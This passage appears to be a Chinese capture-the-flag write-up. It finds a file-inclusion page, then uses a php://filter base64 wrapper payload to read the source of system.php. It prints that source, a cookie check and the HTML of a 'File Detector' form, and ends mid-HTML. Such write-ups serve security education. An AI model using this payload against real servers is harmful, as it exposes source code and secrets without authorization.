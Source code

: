 看wp才发现是查看消息头得到hint
![](https://img-blog.csdnimg.cn/20200324195823853.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
访问得到，是一个文件包含
![](https://img-blog.csdnimg.cn/20200324195948909.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
试着访问robots.txt，存在admin.php和flag.php
![](https://img-blog.csdnimg.cn/20200324200828488.png)
但在home.php引用别的文件就会被拼接上.fxxkyou，导致失败，所以先使用伪协议读取system的代码
`?file=php://filter/convert.base64-encode/resource=system`
```php
<?php
error_reporting(0);
if (!isset($_COOKIE['y1ng']) || $_COOKIE['y1ng'] !== sha1(md5('y1ng'))){
    echo "<script>alert('why you are here!');alert('fxck your scanner');alert('fxck you! get out!');</script>";
    header("Refresh:0.1;url=index.php");
    die;
}

$str2 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;url invalid<br>~$ ';
$str3 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;damn hacker!<br>~$ ';
$str4 = '&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Error:&nbsp;&nbsp;request method error<br>~$ ';

?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>File Detector</title>

    <link rel="stylesheet" type="text/css" href="css/normalize.css" />
    <link rel="stylesheet" type="text/css" href="css/demo.css" />

    <link rel="stylesheet" type="text/css" href="css/component.css" />

    <script src="js/modernizr.custom.js"></script>

</head>
<body>
<section>
    <form id="theForm" class="simform" autocomplete="off" action="system.php" method="post">
        <div class="simform-inner">
            <span><p><center>File Detector</center></p></span>
            <ol class="questions">
                <li>
                    <span><label for="q1">你知道目录下都有什么文件吗?</label></span>
                    <input id="q1" name="q1" type="text"/>
                </li>
                <li>
                    <span><label for="q2">请输入你想检测文件内容长度的url</label></span>
                    <input id="q2" name="q2" type="text"/>
                </li>
                <li>
                    <span><label for="q1">你希望以何种方式访问？GET？POST?</label></span>
                    <input id="q3" name="q3" type="text"/>
                </li>
            </ol>
            <button class="submit" type="submit" value="submit">提交</button>
            <div class="controls">
                <button class="next"></button>
```